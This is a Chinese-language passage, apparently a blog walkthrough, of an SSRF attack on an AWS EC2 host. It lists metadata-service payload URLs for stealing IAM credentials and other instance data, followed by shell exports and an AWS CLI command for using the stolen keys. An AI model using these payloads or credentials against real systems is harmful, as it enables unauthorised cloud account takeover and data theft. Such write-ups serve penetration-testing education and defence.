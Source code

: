 由于主机位于 AWS EC2 环境中，因此我们可以使用“http://169.254.169.254/latest/meta-data/iam/security-credentials/” payloads。  
  
检索 IAM 用户：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvCu93YJwcRvcoiaQWB6qmnyJ6eibSzDgEoGgc1AJicxODflEAe7dpxZwaQ/640?wx_fmt=png&from=appmsg "")  
  
访问  标记内的 URL ：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlv8cCOcuOFl7GBq4iazP5IiaOvIvm1V0oN4c69t6Ykkd0NVuS5EneES0Pg/640?wx_fmt=png&from=appmsg "")  
  
太棒了！获取用户后，我们可以注入以下payloads来窃取 IAM 用户凭证：  
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_user>”
“http://169.254.169.254/latest/meta-data/iam/security-credentials/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlv4FB9FydllTkRocnFRMxorqbQS9kaIVvZT07IcYZGyQjoub2HXre4yg/640?wx_fmt=png&from=appmsg "")  
  
图像标签内的 URL 是一个 JSON 端点，当点击之后：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvdfQSLNnpd6AVK7Mu1InVdQv3AIrucqiaCHEDjlQib6Da9QTzjH8pHsjg/640?wx_fmt=png&from=appmsg "")  
  
成功窃取用户凭证！  
  
利用以下Payloads，可以获取更多敏感信息：  
```
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/block-device-mapping/
http://169.254.169.254/latest/meta-data/security-groups
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/info
http://169.254.169.254/latest/meta-data/mac
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/signature
http://169.254.169.254/latest/dynamic/instance-identity/pkcs7
http://169.254.169.254/latest/dynamic/instance-identity/rsa2048
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvHT1z5Th1svfLpT726HyqIG2PLmmZK3yCDdEyYhtPnwWZ4svPODV7Ww/640?wx_fmt=png&from=appmsg "")  
  
在获取了用户凭证后，就可以尝试将其升级为 RCE（远程代码执行）或其它漏洞利用。  
  
比如，使用用户凭证访问 AWS：  
```
export AWS_ACCESS_KEY_ID= [Your_Access_Key]
export AWS_SECRET_ACCESS_KEY= [SecretKey]
export AWS_SESSION_TOKEN= [Token]
export AWS_DEFAULT_REGION= [Region]
```  
  
使用“get-caller-identity”命令返回有关其凭证用于调用操作的 IAM 用户或角色的详细信息：  
  
aws sts get-caller-identity  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlv3b4deYkXYB2S0fXBga6XLZvsK1R33JbiaAic0uvkibm4BmsvdzTZzKSZA/640?wx_fmt=png&from=appmsg "")  
  